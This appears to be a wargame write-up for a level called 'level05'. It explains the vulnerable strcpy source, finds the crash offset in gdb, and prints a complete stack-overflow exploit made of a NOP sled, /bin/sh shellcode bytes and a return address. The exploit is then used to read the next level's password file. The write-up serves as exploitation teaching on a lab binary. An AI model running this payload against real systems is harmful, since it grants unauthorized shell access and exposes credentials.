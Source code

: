 Classic : a vanilla buffer overflow.
```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

	if(argc < 2) return 1;

	strcpy(buf, argv[1]);

	printf("%s\n", buf);	

	return 0;
}
```

First, let's find the offset at which the binary crashes.

```
(gdb) run $(python -c 'print("A"*143)')
Starting program: /levels/level05 $(python -c 'print("A"*143)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb) run $(python -c 'print("A"*144)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level05 $(python -c 'print("A"*144)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Seems we managed to overflow the return address saved on the stack with our input.
Our payload will be the following : [nop sled][shellcode][return address].

No ASLR here, so let's pick an address on the stack pointing to a nop in the buffer. One must be careful about the alignment of the code though.
The shellcode was picked at [the shell-storm shellcode repo](http://shell-storm.org/shellcode/files/shellcode-827.php).

```
./level05 $(python -c 'print("\x90"*117 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x10\xfe\xff\xbf")')
sh-4.2$ cat /home/level6/.pass
```

##Level 6
